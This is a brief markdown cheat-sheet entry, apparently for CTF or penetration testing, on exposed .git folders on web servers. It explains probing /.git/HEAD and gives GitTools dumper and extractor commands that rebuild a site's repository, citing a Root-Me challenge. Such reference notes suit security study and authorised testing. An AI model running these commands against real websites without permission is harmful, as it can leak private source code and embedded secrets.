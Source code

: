 Git
===

Some website exposes `.git` to the internet. To check if the website is vulnerable, then check for
the following path:

```
https://<domain>/some/path/.git/HEAD
```

If the server return a status 200, then it might be possible to clone the repository. For that, you
can use (`GitTools`)[https://github.com/internetwache/GitTools):

```
Dumper/gitdumper.sh http://<domain>/some/path/.git/ ~/<domain>
Extractor/extractor.sh ~/<domain> ~/<domain>_dump
```

If the script is not dumping the `.git` folder, then you can modify it.

Example: https://www.root-me.org/fr/Challenges/Web-Serveur/Insecure-Code-Management

